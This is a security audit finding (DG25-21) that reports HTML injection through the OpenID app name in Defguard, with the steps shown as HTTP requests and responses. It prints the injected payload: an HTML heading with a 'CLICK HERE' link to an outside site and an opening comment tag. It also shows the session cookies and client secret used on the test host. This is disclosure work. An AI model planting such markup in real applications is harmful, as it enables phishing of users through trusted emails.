 ```yaml
---
title: "DG25-21: HTML Injection - OpenID login"
severity: Info
cvss_string: "/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:N"
status: Completed
issue_link: https://github.com/DefGuard/defguard/issues/1551
---
```


### Technical details

1.  The name of the OpenID app is being changed:

**Request:**\
\
**PUT** /api/v1/oauth/9szvHNlxY6R3jvbX HTTP/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=KENMUulcmfVkD0W8MZjN4Rjw\
\[\...\]

```json
{ 
  "client_secret ": "SHyMugRCmiTkLdo1xtV5IwgrY1dKoHpN ", 
  "enabled ":false, 
  "id ":8, 
  "name ":" <h1 > <a href= '//isec.pl ' >CLICK HERE </a > </h1 > <! -- ", 
  "redirect_uri ": [ "https://isec.pl " ], 
  "scope ": [ "openid " ]
} 
```


\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** application/json\
**Date:** Mon, 11 Aug 2025 10:33:09 GMT\
**Server:** Caddy\
**X-Defguard-Version:** 1.5.0-a29ac10\
**Content-Length:** 2\
\
{}

1.  User authorizes the OpenID:

**Request:**\
\
**POST**
`/api/v1/oauth/authorize?scope=openid&response_type=code&client_id=9szvHNlxY6R3jvbX&redirect_uri=https%3A%2F%2Fisec.pl&state=1113&nonce=test&allow=true`
HTTP/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=0i1uyyokye6n58A0mSLs1VQ7\
\
\
**Response:**\
\
**HTTP/2** 302 Found\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Date:** Mon, 11 Aug 2025 10:35:23 GMT\
**Location:** `https://isec.pl/?code=dmDdZMoVBMztMUodpnDmLsQh&state=1113`\
**Server:** Caddy\
**Content-Length:** 0

1.  An e-mail with HTML injection is being sent:

![](/images/pentest/DG25/img9.png)
